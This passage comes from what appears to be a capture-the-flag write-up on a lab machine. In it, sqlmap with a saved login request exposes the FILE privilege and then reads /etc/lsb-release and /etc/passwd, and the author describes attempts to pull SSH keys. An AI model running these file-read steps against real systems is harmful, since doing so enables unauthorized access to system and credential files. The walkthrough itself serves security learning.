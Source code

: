 

I didn't show the output for `stories`, as it was a lot, but it matched
up with the stories on the main site.

That hash doesn't crack against any wordlists I tried.

#### Privileges

The `--privileges` flag in `sqlmap` will show that the current user can
read files:



    oxdf@parrot$ sqlmap -r login.req --privileges
    ...[snip]...
    database management system users privileges:
    [*] 'admin'@'localhost' [1]:
        privilege: FILE
    ...[snip]...



For example, giving it `--file-read=/etc/lsb-release` returns the file:



    oxdf@parrot$ cat /home/oxdf/.sqlmap/output/10.10.11.101/files/_etc_lsb-release
    DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=20.04
    DISTRIB_CODENAME=focal
    DISTRIB_DESCRIPTION="Ubuntu 20.04.2 LTS"



I can also do a manual file read by logging in, and then sending that
request to Burp Repeater:

![](/img/image-20211202133208422.png)

### File System Enumeration

#### Users

The `/etc/passwd` file shows four users that can get shells:



    oxdf@parrot$ cat /home/oxdf/.sqlmap/output/10.10.11.101/files/_etc_passwd | grep sh$
    root:x:0:0:root:/root:/bin/bash
    kyle:x:1000:1000:Kyle Travis:/home/kyle:/bin/bash
    filter:x:997:997:Postfix Filters:/var/spool/filter:/bin/sh
    john:x:1001:1001:,,,:/home/john:/bin/bash



I tried to read `user.txt` and `id_rsa` files out of any of their home
dirs, but without luck.

#### Web Config

I'll pull the config for enabled sites from Apache
(`/etc/apache2/sites-enabled/000-default.conf`) to see where the web
root is located.
